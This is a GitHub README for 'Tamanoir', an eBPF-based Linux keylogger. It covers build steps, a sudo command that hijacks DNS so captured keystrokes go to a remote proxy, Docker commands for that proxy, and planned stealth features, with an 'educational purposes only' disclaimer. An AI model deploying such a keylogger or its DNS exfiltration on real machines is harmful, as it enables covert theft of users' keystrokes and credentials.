 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## 🚀 Setup

You need a Linux based OS.

### ⚒️ Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

#### 1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

#### 2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

<br>

## 🪄 Usage

### Tamanoir

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack_ip <locally configured DNS server IP> \
              --layout <keyboard layout>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack_ip 8.8.8.8 \
              --layout 0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

### DNS Proxy

On a remote host, make sure you have [docker](https://docs.docker.com/engine/install/) installed.

#### 1. Build proxy image

```
cd proxy
docker build -t proxy .
```

#### 2. Run proxy

> [!NOTE]
> Make sure port 53 is available

```
docker run --rm -it -p 53:53/udp -e PAYLOAD_LEN=8 proxy
```

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make `Tamanoir` stealth (hide used ebpf maps and programs, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
